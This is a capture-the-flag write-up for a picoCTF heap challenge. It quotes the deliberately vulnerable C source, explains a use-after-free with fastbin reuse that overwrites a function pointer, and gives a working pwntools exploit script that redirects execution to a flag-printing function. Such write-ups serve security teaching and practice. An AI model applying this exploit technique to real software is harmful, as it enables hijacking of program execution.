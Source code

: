 # Unsubscriptions Are Free

Check out my new video-game and spaghetti-eating streaming channel on Twixer! [program](http://ctf.infury.org:8000/files/34771c5aedde24a4191918d6b2866969/vuln) and get a flag. [vuln.c](http://ctf.infury.org:8000/files/bd77ad78e4bcef7b5259a47e1b23c765/vuln.c)

`nc mercury.picoctf.net 6312`

##### Hint

> http://homes.sice.indiana.edu/yh33/Teaching/I433-2016/lec13-HeapAttacks.pdf

## WP

In the source code file `vuln.c`, we can find some sensitive codes.

```c
// There are two pointers in struct cmd and a struct takes 8 bytes
typedef struct {
  uintptr_t (*whatToDo)();
  char *username;
} cmd;

cmd *user;

// This function prints the flag
void hahaexploitgobrrr() {
  char buf[FLAG_BUFFER];
  FILE *f = fopen("flag.txt", "r");
  fgets(buf, FLAG_BUFFER, f);
  fprintf(stdout, "%s\n", buf);
  fflush(stdout);
}

// This function prints the address of function hahaexploitgobrrr()
void s() {
  printf("OOP! Memory leak...%p\n", hahaexploitgobrrr);
  puts("Thanks for subsribing! I really recommend becoming a premium member!");
}

// This function will allocate a new memory space with 8 bytes
void leaveMessage() {
  puts("I only read premium member messages but you can ");
  puts("try anyways:");
  char *msg = (char *)malloc(8);
  read(0, msg, 8);
}

// This function will free the memory space pointed by *user, a cmd struct object
void i() {
  char response;
  puts("You're leaving already(Y/N)?");
  scanf(" %c", &response);
  if (toupper(response) == 'Y') {
    puts("Bye!");
    free(user);
  } else {
    puts("Ok. Get premium membership please!");
  }
}

// main function
int main() {
  setbuf(stdout, NULL);
  user = (cmd *)malloc(sizeof(user));
  while (1) {
    printMenu();
    processInput();
    // if(user){
    doProcess(user);
    //}
  }
  return 0;
}
```

We can notice that after the memory space pointed by `user` is freed in function `i()`, the pointer `user` will still point at the original memory address, which means there might be some vulnerabilities.

A `cmd` object takes `8` bytes (two pointers in 32-bit operation), and the first pointer `*whatToDo` points to a function which will be executed in every loop in `main()`. Also, before executing the function pointed by `*whatToDo`, there is no check to make sure that the memory space pointed by `*user` is not freed.

```c
// if(user){
doProcess(user);
//}
```

What's more, when function `leaveMessage()` is called, it will allocate a new memory space, and the space takes exactly `8` bytes. If we know the principle of heap memory management, we will know that after a small heap memory space has been freed, if we allocate another heap memory space with the same size immediately, we are very likely to get the memory space that we freed before (mechanism of **fastbin**).

Since we can write any bytes into the memory space in function `leaveMessage()` and this memory space will still be recognized as a `cmd` struct object pointed by `*user`, we can change the two pointers to any value.

So the way to get the flag is obvious: first get the address of `hahaexploitgobrrr()` by calling `s()`, then free the memory space pointed by `*user` by calling `i()`. Then we call `leaveMessage()`, get the memory space which is still being pointed by `*user`, change the value of the memory space which is originally the space of `*whatToDo` to the address of `hahaexploitgobrrr()`, and then we can let the program execute the function `hahaexploitgobrrr()`.

The script is shown below.

```python
from pwn import *

conn = remote("mercury.picoctf.net", 6312)
print(conn.recv().decode() + '\nS')

conn.send('S')
print(conn.recv().decode())

content = conn.recvline().decode()
print(content)
addr = int(re.search('0x([0-9a-f]*)', content).group(1), 16)
print(conn.recv().decode() + '\nI')

conn.send('I')
print(conn.recv().decode() + '\nY')
conn.send('Y')
print(conn.recv().decode() + '\nl')

conn.send('l')
print(conn.recv().decode())
print(p32(addr))
conn.send(p32(addr))

conn.interactive()
```

Finally the flag will be printed.

![image-20210817164444747](Unsubscriptions-Are-Free.assets/image-20210817164444747.png)

